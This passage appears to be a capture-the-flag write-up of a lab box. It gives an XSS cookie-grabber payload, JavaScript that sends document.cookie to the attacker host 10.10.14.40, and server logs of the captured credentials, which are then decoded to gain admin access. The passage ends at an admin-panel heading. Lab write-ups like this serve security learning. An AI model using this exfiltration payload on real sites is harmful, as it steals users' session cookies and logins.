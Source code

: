 XSS Cookie grabber - gets the session token of the admin and reflects it back to us through the url

XSS payload
```javascript
<script src=http://10.10.14.40/getcookie.js%3E</script>
```
`getcookie.js`
```
function getCookie() {
    var img = document.createElement("img");
    img.src = "http://10.10.14.40/xss?=" + document.cookie;
    document.body.appendChild(img);
}
getCookie();
```


### Delivery

So from my localbox terminal I use a python module called http.server (used to be simpleHTTPserver)
Note: be patient it will work in about 2-5 mintues.
```bash
$sudo python -m http.server 80
[sudo] password for account: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.154 - - [21/Mar/2020 00:21:57] "GET /getcookie.js HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 00:21:57] code 404, message File not found
10.10.10.154 - - [21/Mar/2020 00:21:57] "GET /xss?=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 404 -
```
Ok we got our session token, if we urldecode it in URL then base64 decode it in bash.
```bash
┌─[✗]─[account@parrot]─[~/tmp]
└──╼ $alias urldecode='python3 -c "import sys, urllib.parse as ul; \
>     print(ul.unquote_plus(sys.argv[1]))"'
┌─[account@parrot]─[~/tmp]
└──╼ $urldecode 'YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20'
YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==; 
┌─[account@parrot]─[~/tmp]
└──╼ $echo "YWRtaW4=" | base64 -d
admin
┌─[account@parrot]─[~/tmp]
└──╼ $echo "SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20'" | base64 -d
Hopelessromantic
```
Now we got admin creds `admin:Hopelessromanticbase64` for a inital foothold.

### Web Enumeration: Admin Panel
